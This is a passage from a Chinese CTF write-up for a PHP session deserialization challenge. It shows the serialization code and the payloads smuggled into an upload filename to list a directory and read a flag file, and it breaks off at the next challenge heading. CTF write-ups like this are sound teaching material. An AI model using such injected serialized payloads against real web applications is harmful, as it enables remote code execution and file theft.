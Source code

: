         </form>
    </body>
    </html>

注意 enctype 属性:

| 表头                              | 表头                                                        |
| --------------------------------- | ----------------------------------------------------------- |
| application/x-www-form-urlencoded | 在发送前编码所有字符（默认）                                |
| multipart/form-data               | 不对字符编码。 在使用包含文件上传控件的表单时，必须使用该值 |
| text/plain                        | 空格转换为"+"加号，但不对特殊字符编码。                     |

Code,在本机 PHP 环境执行下，得到反序列化结果。

    <?php
    class OowoO
    {
        public $mdzz='xxxxx';
    }
    $obj = new OowoO();
    echo serialize($obj);
    # O:5:"OowoO":1:{s:4:"mdzz";s:5:"xxxxx";}

payloay1:将 xxxxx 替换为`print_r(scandir(dirname(__FILE__)));`,得到序列化结果：

    O:5:"OowoO":1:{s:4:"mdzz";s:36:"print_r(scandir(dirname(__FILE__)));";}

为防止转义，在引号:前加上\。利用前面的 html 页面随便上传一个东西，抓包，把 filename 改为如下：

    |O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}

注意，前面有一个`|`，这是 session 的格式。
![注意，前面](./imgs/web1.jpg)

接下来就是去读取 `Here_1s_7he_fl4g_buT_You_Cannot_see.php`

由 phpinfo 可知当前的路径为`/opt/lampp/htdocs/`

![注意，前面](./imgs/web2.jpg)

将 xxx 处改为：

`print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));`

之后步骤如前，将 filename 改为：

`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}`

得到 flag：

`CTF{4d96e37f4be998c50aa586de4ada354a}`

#### `[MRCTF2020]Ezpop` pop 链
